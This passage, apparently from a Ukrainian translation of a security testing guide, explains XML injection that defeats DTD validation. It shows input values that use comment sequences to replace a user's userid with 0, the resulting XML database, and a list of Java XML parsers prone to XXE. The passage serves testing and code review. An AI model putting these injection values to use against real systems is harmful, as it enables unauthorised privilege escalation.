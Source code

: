 Зверніть увагу, що вузол userid визначено з кардинальністю 1. У цьому випадку атака, яку ми продемонстрували раніше (та інші прості атаки), не спрацює, якщо XML-документ буде перевірено на відповідність його DTD до того, як відбудеться будь-яка обробка.

Однак цю проблему можна вирішити, якщо тестувальник контролює значення деяких вузлів, що передують вузлу-порушнику (userid, в цьому прикладі). Фактично, тестувальник може закоментувати таку вершину, ввівши послідовність початку/кінця коментаря:

```
Username: tony
Password: Un6R34kb!e</password><!--
E-mail: --><userid>0</userid><mail>s4tan@hell.com
```

У цьому випадку фінальною базою даних XML є:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<users>
    <user>
        <username>gandalf</username>
        <password>!c3</password>
        <userid>0</userid>
        <mail>gandalf@middleearth.com</mail>
    </user>
    <user>
        <username>Stefan0</username>
        <password>w1s3c</password>
        <userid>500</userid>
        <mail>Stefan0@whysec.hmm</mail>
    </user>
    <user>
        <username>tony</username>
        <password>Un6R34kb!e</password><!--</password>
        <userid>500</userid>
        <mail>--><userid>0</userid><mail>s4tan@hell.com</mail>
    </user>
</users>
```

Оригінальний вузол useridбуло закомментовано, залишивши лише введений вузол. Документ тепер відповідає правилам DTD.

## Перегляд вихідного коду

Наступні Java API можуть бути вразливими до XXE, якщо вони не налаштовані належним чином.

```
javax.xml.parsers.DocumentBuilder
javax.xml.parsers.DocumentBuildFactory
org.xml.sax.EntityResolver
org.dom4j.*
javax.xml.parsers.SAXParser
javax.xml.parsers.SAXParserFactory
TransformerFactory
SAXReader
DocumentHelper
SAXBuilder
SAXParserFactory
XMLReaderFactory
XMLInputFactory
SchemaFactory
DocumentBuilderFactoryImpl
SAXTransformerFactory
DocumentBuilderFactoryImpl
XMLReader
Xerces: DOMParser, DOMParserImpl, SAXParser, XMLParser
```